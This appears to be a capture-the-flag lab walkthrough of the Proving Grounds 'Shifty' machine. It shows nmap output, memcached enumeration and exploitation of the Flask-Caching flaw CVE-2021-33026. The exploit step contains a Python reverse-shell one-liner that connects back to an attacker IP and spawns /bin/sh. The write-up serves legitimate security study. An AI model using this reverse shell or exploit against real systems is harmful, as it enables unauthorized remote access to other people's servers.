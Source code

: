 #### Enumeration

Nmap

```
# Nmap 7.91 scan initiated Thu Dec 16 11:54:44 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/xml/_full_tcp_nmap.xml 192.168.55.59
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
Nmap scan report for 192.168.55.59
Host is up, received user-set (0.20s latency).
Scanned at 2021-12-16 11:54:45 EST for 371s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT      STATE  SERVICE   REASON         VERSION
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 54:d8:d1:1a:e4:8c:66:48:37:ba:89:0a:9b:aa:db:47 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSh58OLDmEhil0VmRkmNcijtg4KD/oQ4nP9I7PoS4uoangXCXpjJhuzsZJdKodqIRnp3G33o9HaRvx7LtIMPwl3cGcFNIDR9v+PDhDPgMKyRRJ48kdu3q0krzOWRvYnUEyLYjqDfb8VwBemuFA+gefLrMZLrLhhvArOG69zSCAOwKIC8MpQb+btXjU8c3QM6zKMX4XiEE5MM+TihshX/kJT8GgpJxzc+kXPuRgUkP5dgfQjgSsGos7UdHIGTStL4G2u9gXRj2KvamLZrWugN7onR1oMikWnbIki2OY6q4yn7aRo4RcXh4D9a+/L57R8oekVN4WEdGld2OBLzGCNQ89
|   256 fb:75:84:86:ec:b5:00:f3:4f:cb:c8:f2:18:85:42:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMTUc/WfFpP13Cs+MfoVp8EAwjODshXOpOBYCLG/SrFn5k1xSZVmqM3BVE/Dm2/AMOQGSmYzhMwUOj3rYuwnhWE=
|   256 2f:fd:b2:b1:6c:02:e8:a0:ba:e7:f7:52:80:3f:de:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAoY388QpNieLBhyB714K9LnjTUPfbgw4bfpGgdMBT0c
53/tcp    closed domain    reset ttl 63
80/tcp    open   http      syn-ack ttl 63 nginx 1.10.3
|_http-generator: Gatsby 2.22.15
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open   http      syn-ack ttl 63 Werkzeug httpd 1.0.1 (Python 3.5.3)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open   memcached syn-ack ttl 63 Memcached 1.4.33 (uptime 20753 seconds)
OS fingerprint not ideal because: maxTimingRatio (2.592000e+00) is greater than 1.4
Aggressive OS guesses: Linux 3.11 - 4.1 (93%), Linux 3.16 (91%), Linux 4.4 (91%), Linux 3.13 (88%), Linux 3.2 - 3.8 (87%), Linux 3.8 (87%), WatchGuard Fireware 11.8 (87%), Linux 3.10 - 3.16 (87%), Linux 3.10 - 3.12 (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=12/16%OT=22%CT=53%CU=%PV=Y%DS=2%DC=T%G=N%TM=61BB70C8%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=105%TI=Z%TS=8)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.230 days (since Thu Dec 16 06:30:11 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   224.76 ms 192.168.49.1
2   224.85 ms 192.168.55.59

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 16 12:00:56 2021 -- 1 IP address (1 host up) scanned in 372.78 seconds

```

I do not find the available vulnerability on the port 80 and 5000 website, so start checking service on 11211 port.

After a quick searching I understand the use of memcache. Installing the tools to help to easy get the information from memcache service.

```
sudo apt install libmemcached-tools
```

The stat command can show us some access information, but nothing useful.

```
memcstat --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_13h41m57s_001_.png)


Next we try to get the website store items, but it doesn't return anything back.

```
memcdump --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_13h52m35s_002_.png)

We have to browse the website on port 5000 first and it will generate the session.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h00m00s_003_.png)

I was stuck here for a long time and then I accidentally noticed that this is a demo site made with FLASK, so I tried to search for FLASK, memcache and exploit as keywords and found vulnerability [CVE-2021-33026](https://github.com/CarlosG13/CVE-2021-33026).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h01m53s_004_.png)

Following the instructions for using the vulnerability We try to send the remote shell command.

```
python3 cve-2021-33026_PoC.py --rhost 192.168.100.59 --rport 5000 --cmd "python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.100\",11211));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'" --cookie "session:f246b931-de84-4794-ba25-59c4bd3835df" 
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h28m16s_005_.png)

Successfully obtained shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h28m41s_006_.png)


